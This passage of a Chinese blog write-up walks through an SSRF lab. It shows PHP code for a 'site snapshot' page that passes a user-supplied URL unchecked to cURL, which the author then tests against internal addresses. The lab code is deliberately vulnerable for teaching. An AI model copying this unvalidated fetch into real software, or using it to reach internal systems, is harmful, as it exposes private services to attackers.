    &lt;a class=&#34;navbar-brand&#34; href=&#34;/&#34;&gt;模拟蜘蛛爬取&lt;/a&gt;

    &lt;button class=&#34;navbar-toggler&#34; type=&#34;button&#34; data-toggle=&#34;collapse&#34; data-target=&#34;#navbarColor03&#34; aria-controls=&#34;navbarColor03&#34; aria-expanded=&#34;false&#34; aria-label=&#34;Toggle navigation&#34;&gt;

      &lt;span class=&#34;navbar-toggler-icon&#34;&gt;&lt;/span&gt;

    &lt;/button&gt;

  

    &lt;div class=&#34;collapse navbar-collapse&#34; id=&#34;navbarColor03&#34;&gt;

      &lt;ul class=&#34;navbar-nav mr-auto&#34;&gt;

        &lt;li class=&#34;nav-item active&#34;&gt;

          &lt;a class=&#34;nav-link&#34; href=&#34;/&#34;&gt;首页

            &lt;span class=&#34;sr-only&#34;&gt;(current)&lt;/span&gt;

          &lt;/a&gt;

        &lt;/li&gt;

        &lt;li class=&#34;nav-item active&#34;&gt;

          &lt;a class=&#34;nav-link&#34; href=&#34;https://www.sqlsec.com&#34;&gt;国光

            &lt;span class=&#34;sr-only&#34;&gt;(current)&lt;/span&gt;

          &lt;/a&gt;

        &lt;/li&gt;

      &lt;/ul&gt;

    &lt;/div&gt;

    &lt;/nav&gt;

    &lt;div class=&#34;container&#34;&gt;

      &lt;div class=&#34;jumbotron&#34;&gt;

          &lt;h2 class=&#34;text-center&#34;&gt;站点快照获取&lt;/2&gt;

      &lt;/div&gt;

      &lt;div class=&#34;row&#34;&gt;

        &lt;div class=&#34;col-md-12&#34;&gt;

          &lt;form method=&#34;POST&#34;&gt;

            &lt;div class=&#34;form-group&#34;&gt;

              &lt;input class=&#34;form-control form-control-lg&#34; type=&#34;text&#34; placeholder=&#34;请输入要查询的网站&#34; name=&#34;url&#34;&gt;

            &lt;/div&gt;

              &lt;button type=&#34;submit&#34; class=&#34;btn btn-primary&#34; style=&#34;display:block;margin:0 auto&#34;&gt;Submit&lt;/button&gt;

          &lt;/form&gt;

        &lt;/div&gt;

      &lt;/div&gt;

  

      &lt;hr class=&#34;my-4&#34;&gt;

      &lt;?php

        $url = $_POST[&#39;url&#39;];

        if($url){

          echo &#34;&lt;b&gt;&#34;.$url.&#34; 的快照如下：&lt;/b&gt;&lt;br&gt;&lt;br&gt;&#34;;

          echo &#34;&lt;pre&gt;&#34;;

          curl($url);

          echo &#34;&lt;/pre&gt;&#34;;

        }

      ?&gt;

    &lt;/div&gt;

  &lt;/body&gt;

&lt;/html&gt;
```

找的现成的代码
&lt;br&gt;
&lt;br&gt;


**重点是这个函数**
```php
&lt;?php

    // 关闭所有错误报告
    error_reporting(0);

    /**
     * 使用cURL库来发送HTTP请求的函数
     *
     * @param string $url 目标URL
     */
    function curl($url){

        // 初始化cURL会话
        $ch = curl_init();

        // 设置cURL选项 - 设置目标URL
        curl_setopt($ch, CURLOPT_URL, $url);

        // 设置cURL选项 - 禁止输出头信息
        curl_setopt($ch, CURLOPT_HEADER, 0);

        // 执行cURL会话
        curl_exec($ch);

        // 关闭cURL会话
        curl_close($ch);
    }

?&gt;

```





&lt;br&gt;
符合上面提到的条件
&lt;br&gt;所以试一试

&lt;br&gt;



访问外部是正常的
&lt;br&gt;
访问内部：

&lt;br&gt;


（PS：用作测试的虚拟机本地网站主页就是这个默认界面）


---

> Author:   
> URL: https://66lueflam144.github.io/posts/a64076f/  

